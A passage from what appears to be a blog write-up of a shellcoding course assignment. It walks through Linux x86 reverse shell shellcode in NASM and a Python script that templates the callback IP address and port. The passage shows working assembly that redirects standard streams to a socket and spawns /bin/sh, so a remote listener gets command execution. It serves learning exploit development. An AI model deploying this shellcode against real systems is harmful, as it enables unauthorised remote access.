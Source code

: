     ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate</code></pre><p>As for the previous assignment, the <code>loop</code> instruction repeats the routine <code>RepeatDuplicate</code> three times, once for <code>stderr</code> (<code>0x2</code>), <code>stdout</code> (<code>0x1</code>), and for <code>stdin</code> (<code>0x0</code>):</p><p>Finally, it spawns a shell:</p><pre><code class="language-nasm">    push ecx
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; execve syscall
    xor eax, eax
    mov al, 11
    int 0x80</code></pre><p>From now on, every message that will be sent from the netcat listener is going to be interpreted as a command, since the file descriptors of the <code>shell</code> are redirected to those of the <code>socket</code>.</p><h2 id="automation">Automation</h2><p>One of the requirements of the assignment is to be able to easily configure <code>IP address</code> and <code>TCP port</code>. For this reason, I chose to reuse the script I wrote for the first assignment, to which I've made some small changes in order to use arbitrary IP addresses too.</p><p>I won't show the whole script again, as I've already done that. I'll only cover the changes.</p><p>First, there's the <code>main</code> function. I've added another argument to the script, named <code>ip</code>:</p><pre><code class="language-py">def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--port', type=int, help='TCP Port for the Bind Shell', required=True, metavar="[1-65535]")
    parser.add_argument('-ip', "--ip", help="IP address of the Bind Shell", required=True)
    parser.add_argument('-t', '--template', help='Path of the NASM template file. Example: -t /tmp/template.nasm', required=True)
    parser.add_argument('-o', '--output', help='Path for the output file. Example: -o /tmp/output.nasm', required=True)

    args = parser.parse_args()

    ip_address = args.ip
    tcp_port = args.port

    if tcp_port not in range(1, 65536):
        print(f"[!] Argument '--port' must be in range [1-65535]")
        sys.exit(1)

    shellcode_template = args.template
    output_file_path = args.output

    replace_template_values(shellcode_template, tcp_port, ip_address, output_file_path)
    generate_shellcode(output_file_path)</code></pre><p>Other than that, I have changed the function <code>replace_template_values()</code>:</p><figure class="kg-card kg-code-card"><pre><code class="language-py">def replace_template_values(template_name, tcp_port, ip_address, output_file_path):
